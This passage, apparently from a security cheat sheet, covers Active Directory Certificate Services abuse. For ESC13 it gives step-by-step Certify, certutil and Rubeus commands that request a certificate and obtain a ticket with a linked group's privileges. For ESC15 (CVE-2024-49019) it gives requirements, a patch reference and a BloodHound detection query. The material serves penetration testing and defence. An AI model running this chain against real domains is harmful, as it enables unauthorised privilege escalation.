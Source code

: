 ```ps1
msDS-OIDToGroupLink     : CN=ESC13Group,OU=Groups,OU=Tier0,DC=dumpster,DC=fire

# verify if ESC13Group is a Universal group
PS C:\> Get-ADGroup ESC13Group -Properties Members
GroupScope        : Universal
Members           : {}
```

**Exploitation**:

* Request a certificate for the vulnerable template
  ```ps1
  PS C:\> .\Certify.exe request /ca:DC01\dumpster-DC01-CA /template:ESC13Template
  ```

* Merge into a PFX file
  ```ps1
  PS C:\> certutil -MergePFX .\esc13.pem .\esc13.pfx
  ```

* Verify the presence of the "Client Authentication" and the "Policy Identifier"
  ```ps1
  PS C:\> certutil -Dump -v .\esc13.pfx
  ```

* Ask a TGT for our user, but we are also member of the linked group and inherited their privileges
  ```ps1
  PS C:\> .\Rubeus.exe asktgt /user:ESC13User /certificate:C:\esc13.pfx /nowrap
  ```


## ESC15 - EKUwu Application Policies - CVE-2024-49019

This technique now has a CVE number and was patched on November 12, See [Active Directory Certificate Services Elevation of Privilege Vulnerability - CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) for more information.


**Requirements**

* **Template Schema** Version 1
* **ENROLLEE_SUPPLIES_SUBJECT** = `True`

**Exploitation**:

Detect the vulnerability from BloodHound data using the following cypher query.

```ps1
MATCH p=(:Base)-[:MemberOf*0..]->()-[:Enroll|AllExtendedRights]->(ct:CertTemplate)-[:PublishedTo]->(:EnterpriseCA)-[:TrustedForNTAuth]->(:NTAuthStore)-[:NTAuthStoreFor]->(:Domain) WHERE ct.enrolleesuppliessubject = True AND ct.authenticationenabled = False AND ct.requiresmanagerapproval = False AND ct.schemaversion = 1 RETURN p
```

The **Application Policies** extension is a proprietary certificate extension with the OID `1.3.6.1.4.1.311`, same as **x509 EKUs**. It was designed to allow users to specify additional use cases for certificates by utilizing the same OIDs as those in the Enhanced Key Usage extension.
If there is a conflict between an Application Policy and an EKU, then Microsoft prefers the proprietary Application Policy.
